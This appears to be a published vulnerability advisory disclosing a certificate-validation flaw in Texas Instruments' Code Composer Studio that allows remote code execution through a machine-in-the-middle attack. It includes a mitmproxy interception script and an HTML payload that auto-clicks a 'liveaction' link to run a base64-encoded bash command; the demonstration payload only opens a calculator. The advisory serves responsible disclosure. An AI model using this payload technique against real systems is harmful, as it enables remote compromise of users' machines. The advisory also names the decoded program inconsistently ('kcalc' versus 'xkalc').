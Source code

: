 ```yaml
---
layout: isl-entry
cveNumbers: ["CVE-2021-3285"]
islNumber: "ISL-2020-004"
ghAdvisories: []
excerpt: "The insecure configuration of [JxBrowser](https://www.teamdev.com/jxbrowser) in the \"Getting Started\" view of Code Composer Studio allows a machine-in-the-middle attack (MiTM) which can be escalated to remote code execution (RCE)."
title: "ISL-2020-004: RCE via MiTM in Texas Instruments' Code Composer Studio"
---
```


{% capture summary %}
The insecure configuration of [JxBrowser](https://www.teamdev.com/jxbrowser) in the "Getting Started" view of Code Composer Studio (CCS) allows a machine-in-the-middle attack (MiTM) which can be escalated to remote code execution (RCE).
{% endcapture %}

{% capture product %}
[Code Composer Studio](https://www.ti.com/tool/download/CCSTUDIO/)
{% endcapture %}

{% capture productVersion %}
[Code Composer Studio 10.0.0.00010](https://www.ti.com/tool/download/CCSTUDIO/10.0.0.00010)
{% endcapture %}

{% capture details %}
Texas Instruments' Code Composer Studio is an integrated development environment that supports TI's microcontroller (MCU) and embedded processor portfolios.

When CCS is first started it opens the "Getting Started" view:
![The "Getting Started" view of CCS is shown.]({{ "assets/images/isl-2020-004-texas-instruments-code-composer-studio_getting_started_view.png" | relative_url }})
This view uses [JxBrowser]((https://www.teamdev.com/jxbrowser)), a Java binding for the Chromium browser,  to show a YouTube playlist.
Unfortunately, JxBrowser before [version 6.24](https://jxbrowser-support.teamdev.com/release-notes/2019/v6-24.html) ignored certificate errors **by default**!

This trivially allows an attacker to perform a machine-in-the-middle attack, because any certificate will be accepted.

We can use [mitmproxy](https://mitmproxy.org/) to perform a machine-in-the-middle attack:
1. Download [this script]({{ "assets/files/isl-2020-004/interception_script.py" | relative_url }}) that will intercept the request.
2. Run `mitmproxy -s interception_script.py --listen-port 8080` in a terminal.
3. Run `export HTTPS_PROXY=http://localhost:8080`. So that CCS/JxBrowser will connect to `mitmproxy`.
4. Run `ccs/eclipse/ccstudio` to start CCS.
5. Navigate to "View" -> "Getting Started" if it doesn't open by default.
6. A calculator should pop up (**`kcalc` must be installed**).

What did we do to trigger the RCE?
Let's have a look at `interception_script.py`:
```python
def response(flow: http.HTTPFlow):
    ctx.log.info(flow.request.pretty_url)
    if (
        "https://www.youtube.com/embed/playlist?list=PL3NIKJ0FKtw77BTkTKo_OXYLaT0lL9_zc"
        in flow.request.pretty_url
    ):
        [...]
        custom_response = http.HTTPResponse.make(
            200,
            rceCausingResponse,  # <- replace with attack
            {},
        )
        flow.response.content = custom_response.content  # <- change the response
```
We are using the interception API provided by `mitmproxy` to check whether the requested URL is `https://youtube.com/embed/...`. If it is, we replace the HTTP response with our attack.\
The variable `rceCausingResponse` contains our attack and looks like this:
```python
rceCausingResponse = """[...]
<a target="_parent" id="foo"
href="liveaction:RunProgramAction(/usr/bin/bash -c '{echo,a2NhbGMK}|{base64,-d}|bash')"
>oh no</a>
<img src="null" onerror="document.querySelector('#foo').click()">
[...]
"""
```
The response consists of a link and an image with a `null` source.
The image's `onerror` handler will fire due to the `null` source which will then trigger a click on the link with the custom `liveaction` protocol!\
This protocol is implemented in `CCSIntroPart` by listening to changes to the browser location and calling `ResourceExplorerUtils.executeLiveAction` on the new location. The method `ResourceExplorerUtils.executeLiveAction` then checks whether the URL starts with the `liveaction` protocol.
```java
CCSIntroPart.this.browser.addLocationListener((LocationListener) new LocationListener() {
    public void changing(final LocationEvent event) {
        final String location = event.location;
        if (ResourceExplorerUtils.executeLiveAction(location,
            CCSIntroPart.this.browser.getUrl(), [...])) {
            event.doit = false;
            return;
        }
        [...]
    }
    [...]
});
```
The class name of the action, `RunProgramAction` in our case, and its arguments, `/usr/bin/bash -c '{echo,a2NhbGMK}|{base64,-d}|bash'`, will get extracted if the URL uses the `liveaction` protocol. The `RunProgramAction` class then gets instantiated which passes the arguments to `Runtime.getRuntime().exec()` like this:

`Runtime.getRuntime().exec("/usr/bin/bash -c '{echo,a2NhbGMK}|{base64,-d}|bash'", [...], [...]);`

Why does `'{echo,a2NhbGMK}|{base64,-d}|bash'` not look like a "normal" command, why are there no spaces?\
The overload of the `exec` method takes a `String` as its first argument which will then be **split by space into an array of `String`s**.
So if we had the command `/usr/bin/bash -c 'touch /tmp/owned'` it would be split into this array: [`"/usr/bin/bash"`, `"-c"`, `"'touch"`, `"/tmp/ownde'"`] which would fail to execute!

## Creating a Bash Command Without Spaces
How do we create a bash command without spaces? [Brace Expansion](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Brace-Expansion) to the rescue!
```bash
$ echo {he,llo,world}
he llo world
```
Brace expansion will helpfully add the spaces back for us :)

## Building the Final Command
We now know how to create a command without spaces and we only have to put all pieces together.
1. Encode the command we want to execute using Base64. We do this because it means we can easily use commands with spaces, because Base64 encodes any spaces. In our case we want to run `xkalc` which gets encoded as `a2NhbGMK`.
2. `{echo,a2NhbGMK}` will expand back to `echo a2NhbGMK` (via brace expansion).
3. This is then piped to `{base64,-d}` (expands to `base64 -d`) which decodes it back as `xkalc`.
4. And finally everything is piped to `bash`, executing `xkalc`.

This brings us to the final command `'{echo,a2NhbGMK}|{base64,-d}|bash'` as seen above.
{% endcapture %}

{% capture impact %}
RCE.
{% endcapture %}

{% capture disclosureTimeline %}
- 2020-07-28: Sent report to psirt@ti.com.
- 2020-09-21: CCS 10.1.1.00004 is released with a fix.
- 2021-01-26: CVE is assigned.
{% endcapture %}

{% include isl-entry.md %}
